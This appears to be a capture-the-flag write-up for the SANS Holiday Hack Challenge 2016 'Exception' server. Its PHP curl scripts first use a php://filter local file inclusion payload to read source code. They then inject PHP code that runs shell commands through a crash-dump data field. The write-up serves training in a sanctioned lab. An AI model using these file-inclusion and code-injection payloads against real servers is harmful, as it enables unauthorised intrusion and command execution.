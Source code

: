 ## SANS Holiday Hack Challenge 2016
# Part 04e : Full of Holes (Exception)

Santa has been rescued!! But the culprit has not been identified.

This part focuses on finding and exploiting several vulnerabilities in multiple SantaGram servers. The "flag" is a mp3 audio file hidden on each of these servers.

The urls of the various servers can be found in the "strings.xml" of the SantaGram APK we got in Part 2.

![servers](../04a/img/01.png)

These are the servers in flag order
- [Analytics 1](../04a/#analytics-1)
- [Dungeon](../04b/#dungeon)
- [Debug](../04c/#debug)
- [Ads](../04d/#ads)
- Exception
- [Analytics 2](../04f/#analytics-2)

---

### Exception

Access the Exception site at http://ex.northpolewonderland.com/exception.php

![postonly](img/01.png)

It only accepts POST requests. 

Let's try sending plain POST request to the site.

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$postfields = array();
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $postfields);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
```

Running this script returns the following reply

![reply1](img/03.png)

Let's make it a JSON request then

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$postfields = array();
$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
```

![reply2](img/04.png)

This time it complains that the JSON request is missing the "operation" variable. It also tells us that it accepts 2 values for this variable
- WriteCrashDump
- ReadCrashDump

Let's try WriteCrashDump first. Also, for brevity's sake, I will only be changing the values in the "$postfields" variable from here on out. The rest of the code does not change.

```php
$postfields['operation'] = 'WriteCrashDump';
```

![reply3](img/05.png)

Now it complains it needs a "data" key. Let's give it one then

```php
$postfields['operation'] = 'WriteCrashDump';
$postfields['data'] = 'abc123';
```

![reply4](img/06.png)

Yay, its a success. It returns a path to some php file.

Let's try the other operation "ReadCrashDump" now

```php
$postfields['operation'] = 'ReadCrashDump';
```

![reply5](img/07.png)

It complains about the "data" key again. Let's give it one again.

```php
$postfields['operation'] = 'ReadCrashDump';
$postfields['data'] = "abc123";
```

![reply6](img/08.png)

Now, it complains about a "crashdump" key. Hmm, remember the response from the WriteCrashDump above? There was some kind of crashdump ID, let's try that.

```php
$postfields['operation'] = 'ReadCrashDump';
$postfields['data'] = "abc123";
$postfields['crashdump'] = "crashdump-rqXxSw";
```

![reply7](img/08.png)

It still complains about the "crashdump" key. I was stuck here for awhile. The clue is actually in the SplashScreen class of the SantaGram apk we analyzed before.

![exapk](img/02.png)

In this code, the "data" key contains another JSON object. Perhaps the "crashdump" key is within the "data" key.

```php
$postfields['operation'] = 'ReadCrashDump';
$data = array();
$data['crashdump'] = "crashdump-rqXxSw";
$postfields['data'] = $data;
```
![reply8](img/09.png)

Nice, it returned whatever we sent in the "WriteCrashDump" request.

Looking at the request parameters of the "ReadCrashDump" request, it looks similar to a file inlcusion. I remember one of the elves talking about file inclusions. Let's visit him again.

![elves](img/10.png)

The [blog post](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) talks about using PHP filters in file inclusion vulnerabilities to read php source code. This quite fits what we have seen so far. Follow the article and try it.

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$postfields = array();
//$postfields['operation'] = 'WriteCrashDump';
//$postfields['data'] = 'abc123';
$postfields['operation'] = 'ReadCrashDump';
$data = array();
$data['crashdump'] = "php://filter/convert.base64-encode/resource=crashdump-rqXxSw";
$postfields['data'] = $data;
$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
echo "\n";
echo base64_decode($resp);
echo "\n";
```

![reply9](img/11.png)

Interesting, it seems our "data" message gets written directly into a PHP file as PHP code. If it is not sanitised, we could write arbitrary PHP code into a PHP file. Let's try it.

```php
$url = 'http://ex.northpolewonderland.com/exception.php';
$ch = curl_init();
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$httpheaders = array();
$httpheaders[] = 'Content-Type: application/json';
curl_setopt($ch, CURLOPT_HTTPHEADER, $httpheaders);

$postfields = array();

$postfields['operation'] = 'WriteCrashDump';
$postfields['data'] = "'); echo `ls ../`; echo ('";

/*
$postfields['operation'] = 'ReadCrashDump';
$data = array();
$data['crashdump'] = "php://filter/convert.base64-encode/resource=crashdump-rqXxSw";
$postfields['data'] = $data;
*/

$jsondata = json_encode($postfields);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $jsondata);

$resp = curl_exec($ch);
if ($resp == false) echo curl_error($ch);
var_dump($resp);
echo "\n";
echo base64_decode($resp);
echo "\n";
```

The backtick (`) operator is similar to an eval in PHP. The above will do a "ls" command on the parent directory.

![reply10](img/12.png)

Its easier to read the output in a browser. Open a browser and go to the url.

![view1](img/13.png)

We have found the audio file.

Download and save "[discombobulated-audio-6-XyzE3N9YqKNH.mp3](../05/discombobulated-audio-6-XyzE3N9YqKNH.mp3)"

I've also included the [php script](soln.php) that I used for this challenge.
